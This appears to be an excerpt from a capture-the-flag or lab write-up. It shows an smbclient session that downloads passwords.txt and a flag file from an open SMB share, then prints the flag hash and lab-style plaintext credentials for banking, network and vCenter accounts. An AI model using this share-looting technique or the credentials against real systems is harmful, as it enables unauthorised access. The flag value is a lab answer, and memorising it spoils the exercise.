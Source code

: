 ```bash
  .                                   D        0  Thu Feb 25 21:42:23 2021
  ..                                  D        0  Thu Feb 25 23:06:52 2021
  passwords.txt                       N      156  Thu Feb 25 21:42:23 2021

		4062912 blocks of size 1024. 1284352 blocks available
smb: \bob\> get passwords.txt
getting file \bob\passwords.txt of size 156 as passwords.txt (25.4 KiloBytes/sec) (average 25.4 KiloBytes/sec)
smb: \bob\> cd ..
smb: \> ls
  .                                   D        0  Thu Feb 25 23:06:52 2021
  ..                                  D        0  Thu Feb 25 20:05:31 2021
  flag                                D        0  Thu Feb 25 23:09:26 2021
  bob                                 D        0  Thu Feb 25 21:42:23 2021

		4062912 blocks of size 1024. 1284352 blocks available
smb: \> get flag\flag.txt 
getting file \flag\flag.txt of size 33 as flag\flag.txt (4.6 KiloBytes/sec) (average 14.2 KiloBytes/sec)
smb: \> exit
```

```bash
$ cat flag\\flag.txt; sleep 5;cat passwords.txt 
dceece590f3284c3866305eb2473d099
Banking:

https://acmebank.local/login.php

bobby:Surfer1010!

Network:

bob.smith@inlanefreight.local:Welcome123!


vCenter:

root:B0b_the_m@n!-rootPa$$!
```

The contents of the flag.txt file is **`dceece590f3284c3866305eb2473d099`**.
